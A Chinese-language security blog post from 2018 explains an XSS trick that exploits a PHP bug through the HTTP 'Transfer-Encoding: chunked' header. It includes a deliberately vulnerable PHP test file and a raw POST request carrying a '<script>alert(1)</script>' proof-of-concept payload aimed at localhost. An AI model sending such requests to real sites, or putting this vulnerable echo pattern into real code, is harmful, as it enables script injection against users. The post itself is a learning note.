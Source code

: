 ```yaml
---
layout:     post
title:      有趣的XSS小记
subtitle:   
date:       2018-09-17
author:     sp4rk
header-img: 
catalog: true
tags:
    - xss
---
```




## 0x01 随便说说

早就想更博客了，有点懒就一直没写，最近在进一步的学习网络协议相关的东西，前两天在推特上发现一个有趣的东西，顺便学习了一下http Transfer-Encoding，这里简单的mark记录一下。

## 0x02 记录

前两天看到一篇推特如下：

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc393ltuj30oh07y0te.jpg)



这里本地先尝试了一下：

```php
//testbug1.php
<script>var x=<?=json_encode($_GET)?>;</script>
```

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc3ck6nyj30zf0ipq8r.jpg)

感觉这个好像不可能有XSS，那么既然都发出来了，肯定是能XSS的。。。于是网上搜了下，发现是一个PHP的bug：

[XSS due to the header Transfer-Encoding: chunked](https://bugs.php.net/bug.php?id=76582)

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc3jlksgj30v80iwgpc.jpg)

这个的大致意思就是说可以利用http的分块编码(chunked)来进行操作，那么chunked这个编码是做什么的呢？它主要是为了解决网络文件等不好获取实体长度的文件的问题，通过使用分块传输编码，数据分解成一系列数据块，并以一个或多个块发送，这样服务器可以发送数据而不需要预先知道发送内容的总大小。
这里将请求包改为POST，加入该字段，再插入XSS就行了。

```html
POST /testbug1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Transfer-Encoding: chunked
Content-Length: 25

<script>alert(1)</script>
```

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc3pn0xej30zc0iltei.jpg)